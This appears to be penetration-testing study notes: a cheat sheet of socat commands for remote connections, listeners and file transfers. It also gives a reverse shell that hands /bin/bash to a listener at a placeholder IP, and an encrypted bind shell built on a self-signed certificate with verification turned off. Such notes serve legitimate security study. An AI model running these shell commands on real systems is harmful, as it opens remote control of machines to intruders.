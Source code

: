 Connect to a remote server using socat -> socat - TCP4:<remoteIP>:80

Socat start a listener -> socat - TCP4-LISTEN:443 STDOUT


File Transfers using socat
	1) On sending side -> socat - TCP4-LISTEN:443,fork file:<filename>
	2) On receiving end -> socat TCP4:<remoteIP>:443 file:<filename-tobe-saved>,create


Reverse Shells with socat
	1) On listener side -> socat -d -d TCP4-LISTEN:443 STDOUT
	2) On client side -> socat TCP4:<ListenerIP>:443 EXEC:/bin/bash
	
	
	
Encrypted Bind Shells
	1) On Listener side -> create a ssl certificate first -> openssl req -newkey rsa:2048 -nodes -keyout key.key -x509 -days 362 -out cert.crt
		a. Combine for a .pem cert -> cat key.key cert.crt > cert.pem 
		b. -> socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork EXEC:/bin/bash
	2) On client side: socat - OPENSSL:<ListenerIP>:443,verify=0
